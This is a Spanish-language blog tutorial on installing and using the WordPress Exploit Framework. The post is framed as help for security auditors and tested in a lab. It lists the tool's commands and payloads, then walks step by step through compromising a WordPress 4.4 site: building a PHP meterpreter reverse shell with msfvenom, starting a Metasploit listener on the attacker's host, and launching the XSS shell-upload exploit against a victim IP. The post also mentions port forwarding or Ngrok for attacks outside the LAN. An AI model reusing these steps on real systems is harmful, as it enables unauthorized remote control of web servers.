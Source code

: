 +++
date = "2018-01-05"
title = "WordPress Exploit FrameWork (WPXF) - Instalación, comandos y uso con ejemplo de explotación"
author = "Javier Olmedo"
toc = false
+++

[![/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_banner.png](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_banner.png)](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_banner.png)

WordPress Exploit FrameWork es una herramienta que sirve de ayuda a los auditores de aplicaciones web a la hora realizar **pruebas de seguridad sobre sitios webs basados en el conocido gestor de contenidos (CMS) WordPress**, está desarrollado en Ruby y está orientado al uso y desarrollo de módulos, exploits y payloads, algo similar al conocido Metasploit.

[![/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_001.png](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_001.png)](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_001.png)

## Pasos a seguir para su instalación

Antes de proceder con la instalación, debemos de **asegurarnos que tenemos Ruby 2.2.x** instalado en el sistema, en mi caso, voy a realizar el tutorial sobre Kali Linux, que ya lo trae por defecto instalado, pero en caso que no lo tuvieramos, podríamos instalarlo con el comando:

```bash
apt-get install ruby-full
```

Os dejo **más información** sobre su instalación en diferentes sistemas operativos.

https://www.ruby-lang.org/es/documentation/installation/

Una vez comprobado, nos situamos en la carpeta `/usr/share/` (la cuál contiene algunas de las herramientas instaladas en Kali Linux) y **descargamos el proyecto** desde GitHub.

```bash
cd /usr/share && git clone https://github.com/shakenetwork/wordpress-exploit-framework.git
```

**Nos situamos dentro de la carpeta de WordPress Exploit FrameWork** e instalamos las dependencias con el comando `bundle install`:

```bash
cd /usr/share/wordpress-exploit-framework/ && bundle install
```

En caso de **no tener bundler en el sistema**, podemos instalarlo ejecutando:

```bash
gem install bundler
```

Para evitarnos posibles problemas de instalación (por ejemplo instalación de dependencias como Nokogiri), nos aseguramos de tener las **herramientas necesarias para compilar**

```bash
apt-get install build-essential patch
```

Además, tambien nos aseguraremos de tener los **archivos de desarrollo**

```bash
apt-get install ruby-dev zlib1g-dev liblzma-dev
```

Hasta aquí, tenemos todo preparado para empezar a usarlo.

## ¿Cómo usar WordPress Exploit FrameWork?

Para ejecutarlo, nos situamos sobre la **carpeta del proyecto y lo lanzamos con ruby** de la siguiente manera:

```bash
cd /usr/share/wordpress-exploit-framework/ && ruby wpxf.rb
```

Podemos **ver los comandos disponibles** con `help`:

[![/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_002.png](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_002.png)](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_002.png)

## Comandos disponibles

- **back**: Regresa a la opción inmediatamente anterior.
- **check**: Realiza la comprobación de que el modulo cargado actualmente puede ser usado en el target - establecido.
- **clear**: Limpia la pantalla.
- **exit**: Finaliza wpxf.
- **gset [opcion] [valor]**: Asigna un valor a una variable globalmente la cual es usada para los módulos - actuales y futuros con el mismo valor.
- **gunset [opcion]**: Reasignal un valor a una variable que fue modificada con gset.
- **help**: Muestra la ayuda.
- **info**: Muestra información del modulo actual.
- **quit**: Sale de WordPress Exploit FrameWork.
- **run**: Ejecuta el módulo cargado actualmente.
- **set [opcion] [valor]**: Modifica el valor de una variable para la sesión actual.
- **search [texto]**: Realiza una búsqueda dentro de los módulos de las palabras dadas (Muy útil para - búsquedas específicas de exploits).
- **show advanced**: Muestra opciones avanzadas de configuración del módulo actual.
- **show auxiliary**: Muestra los módulos auxiliares disponibles.
- **show exploits**: Muestra los exploits disponibles.
- **show options**: Muestra las opciones de configuración necesarias para ejecutar un módulo (host, path, - puerto, etc).
- **unset [opcion]**: Reasigna un valor a una variable modificada con set.
- **use [modulo/exploit]**: Usa el módulo especificado si está disponible en la ruta especificada.

## Payloads disponibles

- **bind_php**: Carga un script que se vinculará a un puerto específico y permitirá a WordPress Exploit FrameWork establecer un shell remoto.
- **custom**: Carga y ejecuta un script PHP personalizado.
- **download_exec**: Descarga y ejecuta un archivo ejecutable remoto.
- **meterpreter_bind_tcp**: Carga útil de Meterpreter bind TCP generada utilizando msfvenom.
- **meterpreter_reverse_tcp**: Carga útil TCP inversa de Meterpreter generada mediante msfvenom.
- **exec**: Ejecuta un comando de shell en el servidor remoto y devuelve el resultado a la sesión de WordPress - Exploit FrameWork.
- **reverse_tcp**: Carga una secuencia de comandos que establecerá un shell TCP inverso.

## Ejemplo sobre como subir una shell

Este ejemplo **se ha probado sobre máquinas virtuales dentro de una misma red LAN**, el proceso sería exactamente el mismo para ataques fuera de la red pero tendríamos que hacer **portforwarding** (redirección de puertos) o hacer uso de algún servicio como [Ngrok]().

Se ha utilizado la **versión 4.4 de WordPress** como sitio web vulnerable , puedes descargar esta versión desde su repositorio.

https://es.wordpress.org/releases/

Como atacante se ha utilizado una máquina virtual con **Kali Linux y el exploit wp_v4.4_xss_shell_upload** (WordPress 4.4 Reflected XSS Shell Upload).

## Paso 1: Crear una shell con msfvenom

En este paso, **crearemos una shell** para posteriormente aprovechar una vulnerabilidad y subirla al servidor

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP-ATACANTE] LPORT=[PUERTO-ATACANTE] -o mishell.php
```

[![/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_003.png](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_003.png)](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_003.png)

## Paso 2: Poner a la escucha Metasploit

Aquí **dejaremos a la escucha la máquina atacante** para obtener la shell cuando se explote la vulnerabilidad.

El proceso que seguiremos será el siguiente, **abrimos metasploit, seleccionamos el exploit** y **configuramos el payload con IP y puerto del atacante**, finalmente lo dejamos a la escucha, procederíamos de la siguiente manera:

```bash
msfconsole
```

```bash
use exploit/multi/handler
```

```bash
set payload php/meterpreter/reverse_tcp
```

```bash
set lhost [IP-ATACANTE]
```

```bash
set lport [PUERTO-ATACANTE]
```

```bash
exploit
```

Así nos quedaría Metasploit a la escucha:

[![/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_004.png](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_004.png)](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_004.png)

## Paso 3: Lanzar el exploit con WordPress Exploit FrameWork

El **paso más importante**, aprovecharemos la vulnerabilidad de la **versión 4.4 de WordPress para subir una shell** (Paso 1) y que **conecte con la máquina atacante** que permanece a la escucha (Paso 2), en este punto se da como explotada y aprovechada la vulnerabilidad.

```bash
use exploit/wp_v4.4_xss_shell_upload
```

```bash
set payload custom
```

```bash
set host [IP-VICTIMA]
```

```bash
set target_uri [RUTA-RAIZ-WORDPRESS]
```

```bash
set payload_path [RUTA-SHELL]
```

```bash
run
```

Si todo ha ido bien, quedará confirmada la vulnerabilidad y veremos algo como esto en la ventana de Metasploit:

[![/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_005.png](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_005.png)](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_005.png)

[![/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_006.png](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_006.png)](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_006.png)

## ¿Cómo puedo crear mis propios módulos?

La guía sobre como crear tus propios módulos y cargas la puedes encontrar en la Wiki del proyecto, tambien puede ver la documentación completa de la API.

[![/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_007.png](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_007.png)](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_007.png)

https://github.com/rastating/wordpress-exploit-framework/wiki

[![/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_008.png](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_008.png)](/images/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion/wpxf-instalacion-comandos-y-uso-con-ejemplo-de-explotacion_008.png)

http://www.getwpxf.com/

Hasta aquí la entrada,

Un saludo a todos!!